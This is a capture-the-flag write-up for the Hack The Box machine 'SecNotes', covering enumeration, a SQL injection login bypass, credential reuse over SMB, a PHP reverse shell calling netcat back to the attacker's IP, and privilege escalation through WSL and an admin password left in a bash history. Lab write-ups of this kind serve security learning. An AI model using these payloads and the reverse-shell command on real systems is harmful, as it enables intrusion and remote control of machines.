







---
search:
  exclude: true
---
# SecNotes Writeup

## Introduction :

SecNotes is a Medium windows box released back in August 2018.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      {Ø} nihilist [ 10.10.14.24/23 ] [~]
      → nmap -sCV -p80,445,8808 10.10.10.97
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-20 17:47 GMT
      Nmap scan report for 10.10.10.97
      Host is up (0.086s latency).
    
      PORT     STATE SERVICE      VERSION
      80/tcp   open  http         Microsoft IIS httpd 10.0
      | http-methods:
      |_  Potentially risky methods: TRACE
      |_http-server-header: Microsoft-IIS/10.0
      | http-title: Secure Notes - Login
      |_Requested resource was login.php
      445/tcp  open  microsoft-ds Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
      8808/tcp open  http         Microsoft IIS httpd 10.0
      | http-methods:
      |_  Potentially risky methods: TRACE
      |_http-server-header: Microsoft-IIS/10.0
      |_http-title: IIS Windows
      Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows
    
      Host script results:
      |_clock-skew: mean: 2h20m13s, deviation: 4h02m30s, median: 12s
      | smb-os-discovery:
      |   OS: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)
      |   OS CPE: cpe:/o:microsoft:windows_10::-
      |   Computer name: SECNOTES
      |   NetBIOS computer name: SECNOTES\x00
      |   Workgroup: HTB\x00
      |_  System time: 2020-03-20T10:48:06-07:00
      | smb-security-mode:
      |   account_used: <****blank>
      |   authentication_level: user
      |   challenge_response: supported
      |_  message_signing: disabled (dangerous, but default)
      | smb2-security-mode:
      |   2.02:
      |_    Message signing enabled but not required
      | smb2-time:
      |   date: 2020-03-20T17:48:08
      |_  start_date: N/A
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 53.54 seconds

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80 running http IIS 10.0 so let's investigate it:

Here we see 2 input boxes, and trying a simple XSS payload we see that the box is vulnerable : 

Although only our own user sees the error which won't get us anywhere. So let's create an account and login:

Now for this next part we'll exploit the box's Cross Site Request Forgery (XSRF) within the "change password" page and the "contact us" page: 

 

Now that we intercepted our password changing request with burpsuite, we send it to the repeater (CTRL+R) and go there (CTRL+SHIFT+R)

This is probably the unintended way, but once we hit send on the "contact us Page" we get the following result :

And we recieved a GET request from the box ! which got our XSRF html iframe, now that's one way of getting progress on the box, But the intended way was to do a simple SQL Injection on the previous login page to view the other users notes:
    
    
      'OR 1 OR'
    
    

` 

Log in with out SQLi credentials, and we can view the other users notes ! 

So we have 2 things here : credentials (tyler / 92g!mA8BGjOirkL%OG*&) and we have a domain name: secnotes.htb So let's first add the domainname to our /etc/hosts file, and then check out this new-site: 
    
    
      {Ø} root [ 10.10.14.24/23 ] [nihilist/_HTB/SecNotes]
      → echo '10.10.10.97 secnotes.htb' >> /etc/hosts
    
    

Now the trick here was that we had to remember that our nmap scan picked up the smb service running on port 445, which was actually where this new-site was located.

    
    
      {Ø} nihilist [ 10.10.14.24/23 ] [~/_HTB/SecNotes]
      → smbclient //secnotes.htb/new-site -U "tyler"
      Enter WORKGROUP\tyler's password:
      Try "help" to get a list of possible commands.
      smb: \> ls
        .                                   D        0  Sun Aug 19 19:06:14 2018
        ..                                  D        0  Sun Aug 19 19:06:14 2018
        iisstart.htm                        A      696  Thu Jun 21 16:26:03 2018
        iisstart.png                        A    98757  Thu Jun 21 16:26:03 2018
    
      		12978687 blocks of size 4096. 8120724 blocks available
      smb: \>
    

And we are logged in via smb ! Now we are once again hinted towards an IIS website running, which was the port 8808 that our nmap scan picked up earlier. 

From there all that we have to do is upload our reverse php shell and use it to get onto the box. 
    
    
      {Ø} nihilist [ 10.10.14.24/23 ] [~/_HTB/SecNotes]
      → locate nihilist.php
      /home/nihilist/_HTB/Apocalyst/nihilist.php
      /home/nihilist/_HTB/Bastard/nihilist.php
      /home/nihilist/_HTB/Cronos/nihilist.php
      /home/nihilist/_HTB/Enterprise/nihilist.php
      /home/nihilist/_HTB/Haircut/nihilist.php
      /home/nihilist/_HTB/Meow/nihilist.php
      /home/nihilist/_HTB/Networked/nihilist.php.gif
      /home/nihilist/_HTB/October/nihilist.php5
      /home/nihilist/_HTB/Popcorn/nihilist.php
      /home/nihilist/_HTB/Popcorn/nihilist.php.gif
    
      {Ø} nihilist [ 10.10.14.24/23 ] [~/_HTB/SecNotes]
      → cp /home/nihilist/_HTB/Apocalyst/nihilist.php .
    
      {Ø} nihilist [ 10.10.14.24/23 ] [~/_HTB/SecNotes]
      → nano nihilist.php
    

Now the trick here is, we are not on a Linux box like on [Apocalyst](11.md), we need to tweak our reverse php shell like so : 
    
    
      <****?php
      system('nc.exe -e cmd.exe 10.10.14.24 9001')
      ?****>

As you probably guessed it, we need to upload both our nc.exe and our nihilist.php to the system, So we first download nc, save our reverse shell, and then put them both on the box via smb's put command:
    
    
      {Ø} nihilist [ 10.10.14.24/23 ] [~/_HTB/SecNotes]
      → wget https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip
      --2020-03-21 07:47:29--  https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip
      Resolving eternallybored.org (eternallybored.org)... 84.255.206.8, 2a01:260:4094:1:42:42:42:42
      Connecting to eternallybored.org (eternallybored.org)|84.255.206.8|:443... connected.
      HTTP request sent, awaiting response... 200 OK
      Length: 111892 (109K) [application/zip]
      Saving to: ‘netcat-win32-1.12.zip’
    
      netcat-win32-1.12.zip                   100%[============================================================================>] 109.27K  --.-KB/s    in 0.1s
    
      2020-03-21 07:47:29 (771 KB/s) - ‘netcat-win32-1.12.zip’ saved [111892/111892]
    
    
      {Ø} nihilist [ 10.10.14.24/23 ] [~/_HTB/SecNotes]
      → unzip netcat-win32-1.12.zip
      Archive:  netcat-win32-1.12.zip
        inflating: doexec.c
        inflating: getopt.c
        inflating: netcat.c
        inflating: generic.h
        inflating: getopt.h
        inflating: hobbit.txt
        inflating: license.txt
        inflating: readme.txt
        inflating: Makefile
        inflating: nc.exe
        inflating: nc64.exe
    
      {Ø} nihilist [ 10.10.14.24/23 ] [~/_HTB/SecNotes]
      → nano nihilist.php
    

Now that we have them both, upload them to smb:
    
    
      {Ø} nihilist [ 10.10.14.24/23 ] [~/_HTB/SecNotes]
      → smbclient //secnotes.htb/new-site -U "tyler"
      Enter WORKGROUP\tyler's password:
      Try "help" to get a list of possible commands.
      smb: \> ls
        .                                   D        0  Sun Aug 19 19:06:14 2018
        ..                                  D        0  Sun Aug 19 19:06:14 2018
        iisstart.htm                        A      696  Thu Jun 21 16:26:03 2018
        iisstart.png                        A    98757  Thu Jun 21 16:26:03 2018
    
      		12978687 blocks of size 4096. 8120724 blocks available
      smb: \> put nihilist.php
      putting file nihilist.php as \nihilist.php (0.2 kb/s) (average 0.2 kb/s)
      smb: \> put nc.exe
      putting file nc.exe as \nc.exe (83.4 kb/s) (average 51.0 kb/s)
      smb: \>
    

Then use curl and netcat to get a reverse shell onto the box : 

And we have a reverse shell ! now let's print out tyler's user flag: 
    
    
      {Ø} nihilist [ 10.10.14.24/23 ] [~/_HTB/SecNotes]
      → nc -lvnp 9001
      Ncat: Version 7.80 ( https://nmap.org/ncat )
      Ncat: Listening on :::9001
      Ncat: Listening on 0.0.0.0:9001
      Ncat: Connection from 10.10.10.97.
      Ncat: Connection from 10.10.10.97:49706.
      Microsoft Windows [Version 10.0.17134.228]
      (c) 2018 Microsoft Corporation. All rights reserved.
    
      C:\inetpub\new-site>cd ../../../..
      cd ../../../..
    
      C:\>type C:\Users\tyler\Desktop\user.txt
      type C:\Users\tyler\Desktop\user.txt
      6fXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! We have been able to print out the user flag. 

## **Part 3 : Getting Root Access**

Now in order to privesc on this machine we take a look into tyler's Desktop for interesting files:
    
    
      C:\Users\tyler\Desktop>dir
      dir
       Volume in drive C has no label.
       Volume Serial Number is 9CDD-BADA
    
       Directory of C:\Users\tyler\Desktop
    
      08/19/2018  03:51 PM    <****DIR>          .
      08/19/2018  03:51 PM <****DIR>          ..
      06/22/2018  03:09 AM             1,293 bash.lnk
      04/11/2018  04:34 PM             1,142 Command Prompt.lnk
      04/11/2018  04:34 PM               407 File Explorer.lnk
      06/21/2018  05:50 PM             1,417 Microsoft Edge.lnk
      06/21/2018  09:17 AM             1,110 Notepad++.lnk
      08/19/2018  09:25 AM                34 user.txt
      08/19/2018  10:59 AM             2,494 Windows PowerShell.lnk
                     7 File(s)          7,897 bytes
                     2 Dir(s)  33,260,896,256 bytes free

Here we are hinted towards a Windows Subsystem for Linux with this bash.lnk, so since this is a .lnk it is only a shortcut to the executable we need, we need to find where the original bash.exe is: 
    
    
      C:\Users\tyler\Desktop>cd /windows
      cd /windows
    
      C:\Windows>dir *.exe /b/s | findstr bash
    

So we use the windows equialent of a recursive search with grep and we get the following result: 
    
    
      C:\Windows>dir *.exe /b/s | findstr bash
      dir *.exe /b/s | findstr bash
      C:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
    

So we just cd there and execute bash.exe: 
    
    
      C:\Windows>cd C:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\
    cd C:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\
    
    C:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5>dir
    dir
     Volume in drive C has no label.
     Volume Serial Number is 9CDD-BADA
    
     Directory of C:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5
    
    06/21/2018  03:02 PM    <****DIR>          .
    06/21/2018  03:02 PM <****DIR>          ..
    06/21/2018  03:02 PM           115,712 bash.exe
                   1 File(s)        115,712 bytes
                   2 Dir(s)  33,260,892,160 bytes free

now we execute bash.exe and we see a dmesg error about being unable to spawn us a tty shell, so we look for python and see that python is there so that we can spawn the tty shell ourselves: 
    
    
      C:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5>bash.exe
    bash.exe
    mesg: ttyname failed: Inappropriate ioctl for device
    
    whoami
    root
    
    which python
    /usr/bin/python
    
    python -c "import pty;pty.spawn('/bin/bash')"
    
    root@SECNOTES:~# uname -a && whoami
    uname -a && whoami
    Linux SECNOTES 4.4.0-17134-Microsoft #137-Microsoft Thu Jun 14 18:46:00 PST 2018 x86_64 x86_64 x86_64 GNU/Linux
    root
    
    root@SECNOTES:~# cat /root/root.txt
    cat /root/root.txt
    cat: /root/root.txt: No such file or directory
    

Once we have spawned our tty shell, we see that we can't quite print out the root flag from the /root folder, because that's not a linux box it's a windows box, the root flag is most probably in C:\Users\Administrator\Desktop\root.txt
    
    
      root@SECNOTES:~# ls /mnt
      ls /mnt
      c
      root@SECNOTES:~# ls /mnt/c
      ls /mnt/c
      ls: cannot read symbolic link '/mnt/c/Documents and Settings': Permission denied
      ls: cannot access '/mnt/c/pagefile.sys': Permission denied
      ls: cannot access '/mnt/c/swapfile.sys': Permission denied
      '$Recycle.Bin'            'Program Files (x86)'         bootmgr
       BOOTNXT                   ProgramData                  inetpub
       Distros                   Recovery                     pagefile.sys
      'Documents and Settings'  'System Volume Information'   php7
       Microsoft                 Ubuntu.zip                   swapfile.sys
       PerfLogs                  Users
      'Program Files'            Windows
      root@SECNOTES:~# cat /mnt/c/Users/Administrator/Desktop/root.txt
      cat /mnt/c/Users/Administrator/Desktop/root.txt
      cat: /mnt/c/Users/Administrator/Desktop/root.txt: Permission denied
    

But we're out of luck, we get permission denied, so let's check out what the root user previously did by looking into his bash history : 
    
    
      root@SECNOTES:~# ls -lash
      ls -lash
      total 8.0K
         0 drwx------ 1 root root  512 Jun 22  2018 .
         0 drwxr-xr-x 1 root root  512 Jun 21  2018 ..
      4.0K ---------- 1 root root  398 Jun 22  2018 .bash_history
      4.0K -rw-r--r-- 1 root root 3.1K Jun 22  2018 .bashrc
         0 -rw-r--r-- 1 root root  148 Aug 17  2015 .profile
         0 drwxrwxrwx 1 root root  512 Jun 22  2018 filesystem
    
      root@SECNOTES:~# cat .bash_history
      cat .bash_history
      cd /mnt/c/
      ls
      cd Users/
      cd /
      cd ~
      ls
      pwd
      mkdir filesystem
      mount //127.0.0.1/c$ filesystem/
      sudo apt install cifs-utils
      mount //127.0.0.1/c$ filesystem/
      mount //127.0.0.1/c$ filesystem/ -o user=administrator
      cat /proc/filesystems
      sudo modprobe cifs
      smbclient
      apt install smbclient
      smbclient
      **smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$**
      > .bash_history
      less .bash_history
    

Interesting, the root user apparently hints us towards using this specific smbclient command so let's do it : 
    
    
      exitroot@SECNOTES:~# smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
      \\c$lient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\
      WARNING: The "syslog" option is deprecated
      Try "help" to get a list of possible commands.
      smb: \> ls
      ls
        $Recycle.Bin                      DHS        0  Thu Jun 21 15:24:29 2018
        bootmgr                          AHSR   395268  Fri Jul 10 04:00:31 2015
        BOOTNXT                           AHS        1  Fri Jul 10 04:00:31 2015
        Distros                             D        0  Thu Jun 21 15:07:52 2018
        Documents and Settings            DHS        0  Fri Jul 10 05:21:38 2015
        inetpub                             D        0  Thu Jun 21 18:47:33 2018
        Microsoft                           D        0  Fri Jun 22 14:09:10 2018
        pagefile.sys                      AHS 738197504  Fri Mar 20 23:38:47 2020
        PerfLogs                            D        0  Wed Apr 11 16:38:20 2018
        php7                                D        0  Thu Jun 21 08:15:24 2018
        Program Files                      DR        0  Sun Aug 19 14:56:49 2018
        Program Files (x86)                DR        0  Thu Jun 21 18:47:33 2018
        ProgramData                        DH        0  Sun Aug 19 14:56:49 2018
        Recovery                          DHS        0  Thu Jun 21 14:52:17 2018
        swapfile.sys                      AHS 16777216  Fri Mar 20 23:38:47 2020
        System Volume Information         DHS        0  Thu Jun 21 14:53:13 2018
        Ubuntu.zip                          A 201749452  Thu Jun 21 15:07:28 2018
        Users                              DR        0  Thu Jun 21 15:00:39 2018
        Windows                             D        0  Sun Aug 19 11:15:49 2018
    
      		12978687 blocks of size 4096. 8120303 blocks available
      smb: \> cd Users
      cd Users
      smb: \Users\> cd Administrator
      cd Administrator
      smb: \Users\Administrator\> cd Desktop
      cd Desktop
      smb: \Users\Administrator\Desktop\> type root.txt
      type root.txt
      type: command not found
    

That's not a windows shell! that's just a smb shell, so we need to get the file, exit the smb shell and then print it : 
    
    
      smb: \Users\Administrator\Desktop\> get root.txt
      get root.txt
      getting file \Users\Administrator\Desktop\root.txt of size 34 as root.txt (3.0 KiloBytes/sec) (average 3.0 KiloBytes/sec)
      smb: \Users\Administrator\Desktop\> exit
      exit
      root@SECNOTES:~# cat root.txt
      cat root.txt
      72XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! we have been able to print out the root flag. 

## **Conclusion**

Here we can see the progress graph :

